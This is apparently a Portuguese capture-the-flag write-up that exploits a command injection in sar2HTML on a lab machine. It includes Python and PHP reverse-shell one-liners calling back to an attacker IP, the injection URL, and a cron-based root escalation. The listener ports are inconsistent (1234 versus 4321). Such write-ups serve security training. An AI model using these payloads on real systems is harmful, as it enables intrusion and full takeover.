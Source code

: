 # Capture the Flag - CTF
CTF  - Enumerando, explorando vulnerabilidade, conseguindo shell e posteriormente acesso root.
<h2>Passos seguidos para realizar essa exploração.</h2>

1. Utilizar o **Netdiscover**
2. Escanear portas usando **Nmap**
3. Enumeração da aplicação web com **Dirb**
4. "Exploitando" a vulnerabilidade com código de execução remota **(Remote Code Execution)**
5. Conseguindo shel remota com Python.
6. Explorar permissão de acesso de arquivo e conseguindo acesso root.

# Passo 1: Encontrando o IP da máquina alvo.
  
  O primeiro passo é rodar o Netdiscover para verificar os IPs na rede.
  
  ![](Imagens/Imagem1.png)
  
  Como pode-se ver, o endreço IP do alvo é: 192.168.1.24
  
  # Passo 2:
  
  Após conseguir o endereço IP alvo, o primeiro passo é escanear as ṕortas abertas e avaliar os serviços em execução.
  Vamos utilizar o **Nmap**.
  
  ![](Imagens/Imagem2.png)
  
  **_comando utilizado nmap -A 192.168.1.24_**
  
  Pode-se ver acima que a porta 80 está aberta, com o serviço http rodando. Também é possível ver algumas informações sobre o sistema alvo.
  
  # Passo 3
  
  Analisando a aplicação rodando na porta 80.

  <h1 align="center">
  <img alt="" title="Imagem3" src="Imagens/Imagem3.png" />
  </h1>
  
  Como pode ser visto na imagem acima, o serviço rodando na porta 80 é a página padrão do **apache**.
  Vamos verificar se há algum arquivo que pode ser explorado. Para isso vamos rodar a ferramenta **Dirb** e enumerar os arquivos da aplicação.
  
  
  <h1 align="center">
  <img alt="" title="Imagem4" src="Imagens/Imagem3.png" />
  </h1>
  
  **_Comando usado dirb 192.168.1.24_**
  
  Alguns arquivos foram encontrados como resultado do scan. Eciste alguns arquivos que retornadram status 200 do servidor.
  Vamos verificar o arquivo **"robots.txt"** no navegador.
  
   <h1 align="center">
  <img alt="" title="Imagem5" src="Imagens/Imagem5.png" />
  </h1>
  
  Podemos ver que há uma entrada incomum no arquivo **_robots.txt_**. Verificando o arquivo no browser:
  
  <h1 align="center">
  <img alt="" title="Imagem6" src="Imagens/Imagem6.png" />
  </h1>
  
  Como podemos ver, **"sar2HTML"** é uma ferramenta  instalada na máquina alvo, sua versão está disponível.
  
  # Passo 4
  
  Agora temos a aplicação -"sar2HTML"- e sua versão. Fazendo uma pesquisa, podemos ver que a aplicação é vulnerável e possui um exploit disponível.
    
   <h1 align="center">
  <img alt="" title="Imagem7" src="Imagens/Imagem7.png" />
  </h1>
  
  O primeiro resultado no google nos leva ao **Exploit-DB**. A ferramenta que roda no sistema possui a vulnerabilidade de execução de código remoto. Podemos ver os detalhes do exploit abaixo:
  
   <h1 align="center">
  <img alt="" title="Imagem8" src="Imagens/Imagem8.png" />
  </h1>
  
  Podemos ver os parâmetros de utilização do exploit
  
Montando a URL para utilizar no alvo:  **Exploit <<<http:192.168.1.24/sar2HTML/index.php?plot=;>>>**

Tentando ler o arquivo **_"/etc/passwd"_** através da execução do comando na URL. O resultado pode ser vist abaixo:

   <h1 align="center">
  <img alt="" title="Imagem9" src="Imagens/Imagem9.png" />
  </h1>
  
  O exploit funcionouuu e retornou o conteúdo de "/etc/passwd".
  
  # Passo 5
  
  Agora podemos executar comandos no alvo através do navegador utilizando o exploit. Como o objetivo é conseguir o acesso root, vamos conseguir um acesso um shell reverso. Existem algumas possibilidades para isso:
        1. Podemos utilizar python and perl
        2. Podemos utilizar o metasploit pra criar o arquivo de conexão reversa, fazer download dele como o comando **wget** e executá-lo.
        3. Se a máquina alvo possuir o netcat, podemos utilizá-lo para criar a conexão reversa.
       
Tentando o terceiro método primeiro, para isso basta verificar se á máquina alvo possui o netcat. Podemos rodar o comando **"nc --help"**, se o comando retornar o resultado quer dizer que o netcat está disponível.

   <h1 align="center">
  <img alt="" title="Imagem10" src="Imagens/Imagem10.png" />
  </h1>
  
  Como podemos ver acima o comando não retornou nada. Então vamos tentar o primeiro método. Para isso basta verificar se existe python ou perl instalando no sistema. Testando python primerio
  
   <h1 align="center">
  <img alt="" title="Imagem11" src="Imagens/Imagem11.png" />
  </h1>
  
  Como podemos ver na imagem, python está disponível no alvo e pode ser usado para conexão reversa. Agora é necessário executar o script de conexão reversa na máquina alvo, imagem abaixo.
  
    
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  **URL: 192.168.1.24/sar2HTML/index.php?plot=;%20python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.20%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27**
  
  
  **_Comando usado:_**
  
  1.  <<python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’>>
  2.  <<nc -lvp 1234>>
  
  Como se pode ver, eu coloquei o netcat para rodar na porta <<4321>> e então inserir o comando o navegador para receber a conexão reversa.
  
  
  # Passo 6
  
  Agora temos o acesso a shell, mas é uma acesso limitado. E o objectivo é conseguir acesso root. Então primeiro exectuta-se o comando para que nos dá acesso estável a shell.
  
    <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’**
  
  E então eu quero saber a vesão do kernel linux:
  
  **uname -a**
  
  E a versão do sistema operacional
  
  **cat /etc/issue**
  
  Com essas informações em mãos pode-se pesquisar e ver o que se encontra. Procurando exploits online, nenhum pareceu atender. Entretanto, explorando o sistema por mais informações, conseguimos uma "user flag", como mostrado no print abaixo:
  
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  **cd /home/love/Desktop**
  **cat user.txt**
   Podemos ler o arquivo user.txt.
   
 # Passo 7
 
 
 Buscando por permissões de arquivo **<<cat /etc/crontab>>**, temos um Cron que é executado como root a cada 5 minutos
  
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  O Cron está rodando a partir de um arquivo, "finally.sh" como visto na imagem
    
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  Mudando de diretório para **/var/www/html**  e lendos os  arquivos e suas permissões pode-se ver que com o nível de acesso atual, é possivel editar o arquivo "write.sh", que será excutado pelo Cron, que por sua vez roda como root.
  
  Agora ajustamos uam connexão reversa com php dentro do arquivo write.sh
  
  **_php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i<&3 >&3 2>&3”);’_**
  
  Esse comando o sistema alvo se conectará a nós (conexão reversa) na porta 4444. Como a ativade Cron estava configurada para executar a cada 5 minutos, aguardando esse tempo temos a conexão.
  
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1> 
  
  Agora que temos acesso root, podemos, objetivo deste CTF, Podemos ler a flag **cat root.txt**
  
  <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  Podemos fazer qualquer coisa no sistema agora e isso completa o CTF.
  
  
  
  
 
  
  
  
  
  
  
